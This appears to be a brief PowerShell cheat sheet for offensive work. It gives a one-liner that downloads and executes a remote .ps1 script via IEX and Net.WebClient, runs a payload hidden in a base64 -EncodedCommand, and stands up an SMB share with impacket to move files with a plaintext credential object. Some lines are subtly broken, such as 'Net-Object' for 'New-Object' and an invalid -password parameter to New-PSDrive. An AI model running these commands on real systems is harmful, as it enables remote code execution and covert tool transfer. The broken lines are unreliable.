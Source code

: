 ### Download and execute ps1

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.1.1/blah.ps1')
```

### Execute command from base64

First convert your payload to utf16 little endian
```
echo test | iconv -t UTF-16LE
```

```
powershell -EncodedCommand <base64>
```

### Create smb share:

From impacket:
```
impacket-smbserver -username username -password password shareName shareDirectory
```

From powershell:

```
New-PSDrive -name username -password password \\ip\shareName -Credential $cred -PSProvider "filesystem"
```

### Create credential

```
$pass = "password" | ConvertTo-SecureString -AsPlainText -Force
$cred = Net-Object System.Management.Automation.PsCredential('username', $pass)
```
